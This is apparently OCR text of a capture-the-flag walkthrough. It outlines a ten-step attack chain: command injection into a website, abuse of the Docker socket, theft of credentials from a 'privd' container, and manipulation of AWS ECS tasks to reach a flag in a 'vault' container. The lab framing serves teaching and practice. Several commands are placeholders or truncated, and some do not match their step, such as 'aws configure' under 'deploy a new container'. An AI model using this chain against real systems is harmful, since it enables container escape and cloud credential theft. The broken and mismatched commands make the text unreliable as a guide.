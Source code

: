 1. Exploit the website via command injection.

    `; one-liner`

2. Use the docker.sock to deploy a new container 

    `aws configure --profile ruse`

3. List the container on the host

    `docker ps`

4. Get the container credentials from the "privd" container. 

    `docker exec -it <container_id> curl blah `

5. List the clusters in the account 

    `aws ecs list-clusters --profile privd`

6. List tasks in the cluster

    `aws ecs list-tasks --cluster <CLUSTER ARN> --profile ruse`

7. List container instances 

    `aws ecs  `

8. Set container instance to DRANING 

    `aws ecs register-task-definition --generate-cli-skeleton --profile ruse > task_template.json`

9. Wait for "Vault" container to be rescheduled. 

    `docker ps`

10. Get the flag from the "vault" container 

    `docker exec -it <container_id> cat FLAG.txt`